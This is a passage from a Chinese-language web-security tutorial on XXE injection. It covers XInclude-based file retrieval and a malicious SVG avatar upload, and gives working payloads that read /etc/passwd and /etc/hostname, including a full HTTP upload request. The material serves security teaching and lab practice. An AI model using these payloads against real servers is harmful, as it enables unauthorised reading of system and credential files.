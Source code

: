 ### 通过XInclude进行XXE注入

一些应用程序接收客户端提交的数据，将其在服务器端嵌入到XML文档中，然后解析该文档，将客户端提交的数据放入后端SOAP请求中，然后由后端SOAP服务对其进行处理时，就会发生这种情况

这种情况下攻击者不能定义和修改`DOCTYPE`元素，但可以使用`XInclude`代替。 
`XInclude`是XML规范的一部分，该规范**允许从子文档中构建XML文档**。

要执行`XInclude`攻击，您需要引用XInclude命名空间，并提供要包含的文件的路径，例如：

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

#### 案例8：利用XInclude来检索文件

```http
productId=
<aa xmlns:xi="http://www.w3.org/2001/XInclude">
	<xi:include parse="text" href="file:///etc/passwd"/>
</aa>
&storeId=1
```

### 通过文件上传进行XXE注入

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。**基于XML格式的示例包括DOCX等办公文档格式和SVG等图像格式**

由于SVG格式使用XML，因此攻击者可以提交恶意的SVG映像，因此可以隐藏攻击面以发现XXE漏洞

#### 案例9：通过图像文件上传进行XXE注入

*xxe.svg*

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/hostname">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" version="1.1" xmlns:xlink="http://www.w3.org/1999/xlink">
    <text font-size="16" x="0" y="20">
        &xxe;
    </text>
</svg>
```

```http
...
Content-Disposition: form-data; name="avatar"; filename="xxe.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/hostname">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" version="1.1" xmlns:xlink="http://www.w3.org/1999/xlink">
    <text font-size="16" x="0" y="20">
        &xxe;
    </text>
</svg>
...
```
